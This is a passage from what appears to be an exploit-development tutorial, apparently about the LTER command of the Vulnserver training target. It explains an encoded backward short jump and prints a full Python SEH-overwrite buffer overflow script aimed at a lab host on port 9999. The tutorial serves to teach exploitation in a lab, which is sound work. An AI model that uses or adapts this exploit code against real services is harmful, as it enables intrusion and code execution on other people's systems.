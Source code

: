 As you can see we were successful! 

### Encoding/Decoding a Short Jump Backwards

Now that we know where our decoded shellcode will appear (visually right above `ESP`), we are free to put our encoded jump backwards into our shellcode. After feeding the shellcode `\xeb\x80\x90\x90` to Slink, we get the following encoded payload: 
```terminal_session
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50"
```

So let's add this to our payload, which now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

nSeh = '\x74\x06\x75\x04'
Seh = '\x2b\x17\x50\x62'
espAdj = '\x54\x58\x66\x05\x4b\x13\x50\x5C'
jump = ""
jump += "\x25\x4A\x4D\x4E\x55" ## and  eax, 0x554e4d4a
jump += "\x25\x35\x32\x31\x2A" ## and  eax, 0x2a313235
jump += "\x05\x76\x40\x50\x50" ## add  eax, 0x50504076
jump += "\x05\x75\x40\x40\x40" ## add  eax, 0x40404075
jump += "\x50" 


buffer = 'A' * 3514
buffer += nSeh
buffer += Seh
buffer += espAdj
buffer += jump
buffer += 'D' * (4000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

Let's send this and do a before and after for our Encoded/Decoded payload. If it is done correctly, a red `JMP` instruction should pop out of thin air visually on top of `ESP` once we execute the last part, the `\x50` (push `EAX`). 
